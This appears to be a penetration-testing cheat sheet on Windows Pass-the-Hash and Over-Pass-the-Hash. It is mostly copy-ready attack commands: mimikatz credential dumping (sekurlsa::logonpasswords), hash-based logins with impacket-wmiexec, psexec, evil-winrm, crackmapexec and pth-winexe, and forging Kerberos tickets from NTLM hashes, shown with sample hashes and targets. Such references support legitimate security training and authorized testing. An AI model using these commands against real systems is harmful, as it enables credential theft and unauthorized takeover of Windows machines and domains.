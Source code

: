 ## Pass the Hash (Path storing hashes: `~/.cme/logs`. 3 types of files: .sam, .secrets, .cached)
- Allows an attacker to authenticate to a remote system or service via a user's NTLM hash
Precondition (3 conditions):
- requires an SMB connection through the firewall (commonly port 445)
- the Windows File and Printer Sharing feature to be enabled.
- admin share called ADMIN$ to be available.

- using wmiexec on kali
  
         kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
  
- Remote Access + evil-winrm  

         evil-winrm -i <IP> -u <user> -H <hash>
  
- Remote Access - impacket-psexec  
```
impacket-psexec '<domain>/<user>'@<IP> -hashes ':<hash>'
psexec.py "frank castle":@192.168.57.141 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b 
```

- Remote Access - CrackMapExec (to run commands as another user using PTH)
```
crackmapexec winrm 192.168.1.50 -u s4vitar -H ffffffffffffffffffffffff -X 'whoami'
crackmapexec smb 192.168.1.54 -u jenkinsadmin -H ffffffffffffffffffffffff -X 'whoami'
```

- Remote Access - winexe
```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:<hash_ntlm> //<IP> cmd.exe
```


## Over Pass the Hash (exploit user hash and make a TGT)
Allows an attacker to abuse an NTLM user hash to obtain a full Kerberos ticket granting ticket (TGT) or service ticket (TGS), which grants us access to another machine or service as that user

- obtain NTLM hash of current user in current context e.g. running notepad as Jen
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

- Create new PowerShell as Jen (hash owner) to obtain Kerberos tickets without performing NTLM authentication over the network (output: launch a new powershell as Jen
```
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

- if klist finds no cached TGT and TGS, we generate TGT using cache hashes by invoking
```
net use \\files04
```

